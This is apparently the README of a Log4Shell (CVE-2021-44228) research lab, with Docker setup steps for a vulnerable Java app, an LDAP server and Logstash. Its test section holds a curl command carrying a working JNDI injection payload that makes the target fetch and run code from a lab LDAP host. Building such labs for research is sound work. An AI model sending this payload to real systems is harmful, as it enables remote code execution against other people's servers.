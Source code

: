 # CVE-2021-44228 Log4Shell Research Lab 🚧

A basic lab environment to test some of the public proof of concepts to trigger and learn more about [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) and expedite the time it takes to deploy multiple scenarios.

## Docker Deployment

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Create Local Socket Proxy

```
docker network create --gateway 192.168.55.1 --subnet 192.168.55.0/24 socket_proxy
```

### Run Docker Compose File

```
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server

docker logs --follow web-server
```

## Run Vulnerable Apps

* [BasicJar](#basicjar)
* [Logstash](#logstash)

## BasicJar
### Compile

**Dockerized**
```
cd vulnApp
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Locally**
```
cd vulnApp
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar  com.log4jshell.App
```

## Logstash

## Run Test

Monitor for Logstash logs

```
docker logs --follow logstash
```

Run test
```
curl -H "content-type: application/json" -XPUT 'http://127.0.0.1:8080/tweets/me' -d '"${jndi:ldap://192.168.55.10:1389/CreateFile}"'
```

## References
* https://www.smarthomebeginner.com/traefik-docker-security-best-practices/#9_Use_a_Docker_Socket_Proxy